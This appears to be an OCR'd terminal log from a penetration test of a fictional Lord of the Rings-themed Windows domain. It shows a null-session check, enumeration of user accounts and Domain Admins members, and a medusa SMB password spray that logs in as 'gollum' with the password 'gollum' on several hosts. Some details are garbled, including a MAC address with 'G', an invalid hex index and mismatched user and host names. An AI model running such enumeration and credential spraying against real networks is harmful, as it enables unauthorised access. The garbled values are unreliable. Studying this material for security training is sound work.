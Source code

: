 ```

=========================================== 
| Nbtstat Information for 192.168.1.90 |
=========================================== 
Looking up status of 192.168.1.90 
MODOR <00> - M Workstation Service 
MIRKWOOD <00> - M Domain/Workgroup Name 
MIRKWOOD <1c> - M Domain Controllers 
MORDOR <20> - M File Server Service

MAC Address = B5-AD-2F-37-2G-4F

==================================== 
| Session Check on 192.168.1.90 | 
==================================== 
[+] Server 192.168.1.90 allows sessions using username '', password '' 
…snip…

============================ 
| Users on 192.168.1.90 | 
============================ 
index: 0x2b76 RID: 0xd08 acb: 0x00000610 Account: Administrator Name: Administrator Desc: (null) 
index: 0x1822 RID: 0xb0a acb: 0x00000414 Account: Frodo Name: Frodo Baggins Desc: (null) 
index: 0x1bga RID: 0xc0a acb: 0x00080210 Account: Samwise Name: Samwise Gamgee User Desc: (null) 
index: 0x1dc4 RID: 0xc7a acb: 0x00050210 Account: Stryder Name: Aragorn User Desc: (null) 
index: 0x1823 RID: 0xb0b acb: 0x00007014 Account: Legolas Name: Legolas Greenleaf Desc: (null) 
index: 0x1824 RID: 0xb0c acb: 0x00010014 Account: Gimli Name: Gimli son of Glóin Desc: (null) 
index: 0x1825 RID: 0xb0d acb: 0x00300014 Account: Boromir Name: Boromir son of Denethor II Desc: (null) 
index: 0x126f RID: 0x9eb acb: 0x00004014 Account: Gandalf Name: Gandalf the Gray Desc: (null) 
index: 0x1826 RID: 0xb0e acb: 0x00020015 Account: gollum Name: gollum Desc: (null) 
…snip…

~/work/targets/192.168.1.90# cat enum-192.168.1.90 .txt | grep "Domain Admins" 
Group 'Administrators' (RID: 544) has member: MIRKWOOD\Domain Admins 
Group:[Domain Admins] rid:[0x200] 
Group 'Domain Admins' (RID: 512) has member: MIRKWOOD \Gandalf 
Group 'Domain Admins' (RID: 512) has member: MIRKWOOD \Stryder 
Group 'Domain Admins' (RID: 512) has member: MIRKWOOD \Administrator 
Group 'Domain Admins' (RID: 512) has member: MIRKWOOD \gollum 
Group 'Domain Admins' (RID: 512) has member: MIRKWOOD \Saruman 
S-1-5-21-8675309254-522963170-1866889882-512 MIRKWOOD \Domain Admins (Domain Group) 
S-1-5-21-1897573695-8675309227-1212564242-512 MORDOR\Domain Admins (Domain Group)

~/work/nmap/# medusa -M smbnt -H smb -u gollum -p gollum -m GROUP:DOMAIN | tee smb-gollum.medusa
ACCOUNT CHECK: [smbnt] Host: 192.168.1.1 (1 of 62, 0 complete) User: gollum (1 of 1, 0 complete) Password: gollum (1 of 1 complete) 
ACCOUNT FOUND: [smbnt] Host: 192.168.1.1 User: gollum Password: gollum [SUCCESS (0x000072:STATUS_ACCOUNT_DISABLED)] 
ACCOUNT CHECK: [smbnt] Host: 192.168.1.100 (2 of 62, 1 complete) User: gollum (1 of 1, 0 complete) Password: gollum (1 of 1 complete) 
ACCOUNT FOUND: [smbnt] Host: 192.168.1.100 User: gollum Password: gollum [SUCCESS (0x000072:STATUS_ACCOUNT_DISABLED)] 
ACCOUNT CHECK: [smbnt] Host: 192.168.1.105 (3 of 62, 2 complete) User: gollum (1 of 1, 0 complete) Password: gollum (1 of 1 complete) 
ACCOUNT FOUND: [smbnt] Host: 192.168.1.105 User: gollum Password: gollum [SUCCESS] 
ACCOUNT CHECK: [smbnt] Host: 192.168.1.106 (4 of 62, 3 complete) User: gollum (1 of 1, 0 complete) Password: gollum (1 of 1 complete) 
ACCOUNT FOUND: [smbnt] Host: 192.168.1.106 User: gollum Password: gollum [SUCCESS (0x000072:STATUS_ACCOUNT_DISABLED)] 
ACCOUNT CHECK: [smbnt] Host: 192.168.1.107 (5 of 62, 4 complete) User: ssadmin (1 of 1, 0 complete) Password: gollum (1 of 1 complete) 
ACCOUNT FOUND: [smbnt] Host: 192.168.1.107 User: gollum Password: gollum [SUCCESS] 
```